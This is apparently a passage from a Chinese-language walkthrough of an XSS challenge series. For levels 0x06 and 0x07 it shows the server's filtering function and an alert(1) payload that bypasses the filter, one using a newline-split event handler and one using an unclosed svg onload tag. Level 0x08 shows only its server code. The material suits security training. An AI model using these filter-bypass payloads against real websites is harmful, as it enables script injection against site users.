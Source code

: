 ## 0x06

- server code

```js
function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `<input value=1 ${input} type="text">`
}
```

- solution

过滤了`auto`、`onxxxx=`以及`>`关键字段。可利用换行`\n`绕过。

```html
//input code
onmousemove
= alert(1)
//html
<input value=1 onmousemove
= alert(1) type="text">
```

## 0x07

- server code 

```js
function render (input) {
  const stripTagsRe = /<\/?[^>]+>/gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}
```

- solution

正则匹配过滤了`<`开头`>`结尾的字符串内容。利用浏览器HTML解析里的容错机制进行绕过，不闭合`>`。

```js
//input code
<svg/onload='alert(1)'
//html
<article><svg/onload='alert(1)'</article>
```

## 0x08 

- server code

```js
function render (src) {
  src = src.replace(/<\/style>/ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}
```
